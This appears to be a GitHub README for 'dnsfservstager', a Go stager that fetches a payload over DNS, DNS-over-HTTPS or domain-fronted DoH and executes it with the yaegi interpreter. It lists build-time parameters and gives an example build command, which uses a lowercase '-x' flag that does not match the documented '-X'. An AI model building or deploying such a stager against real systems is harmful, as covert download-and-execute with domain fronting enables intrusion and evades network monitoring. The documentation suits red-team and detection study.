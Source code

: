 Stager Using dnsfserv
=====================
This is a simple stager which downloads a payload using DNS and runs it as Go
source code.  It's more or less a thin wrapper around
[`dnsfservget`](https://github.com/magisterquis/dnsfserv/dnsfservget) and
[`yaegi`](https://github.com/containous/yaegi).

Features
- Executes staged Go source code
- Downloads over
  - DNS
  - DNS over HTTPS (DoH)
  - Domain-fronted DoH
- Cross-platform

Not very well-tested.  Use at your own risk.

For legal use only

Payload
-------
The payload can be nearly any Go source code.  Please see the documentation for
[`yaegi`](https://github.com/containous/yaegi/blob/master/README.md) and
[`interp.Interpreter.Eval`](https://godoc.org/github.com/containous/yaegi/interp#Interpreter.Eval)
for more information about what might be interpreted.

Configuration and Building
--------------------------
There are four configurable parameters, set with `-ldflags="-X ..."` at
compile-time:

Parameter     | Required | Example                         | Description
--------------|----------|---------------------------------|------------
`main.domain` | Yes      | `example.com`                   | The base domain to query.  This can include subdomains.  A label requesting chunks of the payload will be prepended.
`main.fname`  | Yes      | `payload`                       | The filename of the payload
`main.dohURL` | No       | `https://example.net/dns-query` | If set, requests will be made to the DoH server URL
`main.dohSNI` | No       | `example.org`                   | If set a different SNI (and hostname for DNS resolution) to use for DoH, for domain-fronting

If `main.dohURL` is set, queries will be performed via DNS-over-HTTPS.  If not,
queries will use traditional DNS.

Example:
```sh
go build \
        -ldflags="-X main.domain=example.com -X main.fname=payload -x main.dohURL=https://example.net/dns-query -X main.dohSNI=example.org" \
        -o stager \
        github.com/magisterquis/dnsfserv/dnsfservstager
```

